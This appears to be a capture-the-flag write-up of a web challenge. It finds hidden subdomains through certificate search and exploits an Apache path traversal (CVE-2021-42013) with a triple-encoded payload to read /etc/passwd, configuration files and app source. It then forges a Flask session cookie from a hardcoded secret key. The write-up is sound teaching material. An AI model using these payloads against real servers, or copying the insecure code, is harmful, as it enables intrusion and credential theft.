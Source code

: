 # Lukas App

## Description

> After the excellent success of the luca-app we now decided to build our own tracing apps. We still have some technical difficulties but you may still want to have a look: https://lukas-app.de. At least we managed to get the TLS certificates for all hosts!
>
> Hint 1: Read the challenge description carefully. There already is a big hint in it.
>
> Hint 2: There is only a tiny bit of guesswork involved, and it's not hard to find. A lot of teams already found it. Also again: Automated tooling like dirbuster or sqlmap will not help you with this challenge.
>
> Hint 3: We at Lukas App are proud to be running our software in the cloud. We don't even need to care about server updates or weird protocol headers anymore.

## Solution

The contents of https://lukas-app.de are not very interesting. It's only a static site, with a non-working captcha. The web challenges in this CTF don't involve any scanning and brute-forcing, so there's nothing else for us here.

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.51.36 AM.png>)

### Certificate Search

The description said "At least we managed to get the TLS certificates for all hosts!", and the hints point us in that direction, so I decided to do a `crt.sh` certificate search.

![](<../../.gitbook/assets/image (81) (1) (1).png>)

This indeed revealed two additional subdomains! `beta.lukas-app.de` is another web app. There's a login page, but not much else.

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.57.41 AM.png>)

I noticed that the logo here is fetched from `https://cdn.lukas-app.de/static/logo.png`. But when visiting this URL, we are actually redirected to another domain: `https://cdn-eu-west.lukas-app.de/static/logo.png`.

### Path Traversal

Looking at the response headers, I immediately noticed that we have hit the jackpot - this server, unlike the others, returned `Server: Apache/2.4.50 (Unix)`, which was vulnerable to a recent path traversal vulnerability (CVE-2021-42013)!

{% embed url="https://www.exploit-db.com/exploits/50406" %}

Using the usual payload (`.%%32%65`), however, gave us a 400 Bad Request. I think this was due to the server using both Nginx (which would have already performed one round of URL decoding) and Apache (which would then receive the URL-decoded path). To overcome this, I had to URL-encode the PoC payload again (a _triple_ URL encoding by now!)

Now we get a different error (403 Forbidden) using `GET /cgi-bin/.../etc/passwd`.

I was stuck here for a while, until I came across some inspiration from [Twitter](https://twitter.com/\_\_mn1\_\_/status/1445655933242134530): instead of `/cgi-bin/` maybe the `/static/` path, where the logo is stored, is an `Alias` to some directory?

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 12.09.16 PM.png>)

I finally got a working path traversal: `GET /static/%25%2532%2565%25%2532%2565%2F%25%2532%2565%25%2532%2565%2Fetc/passwd HTTP/2`

I then read the Apache configuration file (at `/usr/local/apache2/conf/httpd.conf`), which confirmed my hypothesis. Interestingly, the `/static/` URL maps to `/app/static`. Could this be the same directory where the web app is stored?

```
...

Alias "/static" "/app/static"

...
```

Indeed, I was able to read the source code from `/app/app.py`.

```python
#!/usr/bin/env python3

from flask import Flask, session, redirect, url_for, escape, request, render_template
import werkzeug.exceptions
import crypt
import secrets

app = Flask(__name__)
app.secret_key = "secrets.token_bytes(50)"

FLAG = open("/flag.txt").read()

@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."

@app.route("/robots.txt")
def robotstxt():
    return open("robots.txt").read()

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.tpl", msg=request.args.get("msg", ""))

    username = request.form["username"]
    password = request.form["password"]

    # use system logins during beta phase, needs to be moved to database for production use!
    users = dict(x.split(":")[:2] for x in open("/etc/shadow").readlines() if x.split(":")[1][0] != "!")
    if username not in users:
        return redirect("/login?msg=Invalid+credentials")
    if crypt.crypt(password, users[username]) != users[username]:
        return redirect("/login?msg=Invalid+credentials")

    session["username"] = username
    return redirect("/")

@app.errorhandler(werkzeug.exceptions.BadRequest)
def handle_bad_request(e):
    return "/app/app.py:app raised an exception:<br/>" + str(e), 400

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

### Baking Cookies

The final nail in the coffin came from the following programming error in the secret key (it's a string):

```python
app.secret_key = "secrets.token_bytes(50)"
```

We simply need to change our session `username` to `root`, in order to get the flag.

```python
@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."
```

Since the server uses client-side cookies, we can simply sign the Flask cookie with our desired username.

```
$ flask-unsign --sign --cookie "{'username': 'root'}" --secret "secrets.token_bytes(50)"
eyJ1c2VybmFtZSI6InJvb3QifQ.YaORNg.qF6ApxeBVfgNfKnMi5j6FegPqSM
```

Change the session cookie and get the flag!

```
Hello, root!
Have a nice flag: CSR{%79%6f%75%20%63%61%6e%27%74%20%65%73%63%61%70%65%20%74%68%65%20%64%6f%75%62%6c%65%20%64%6f%74%73}
```
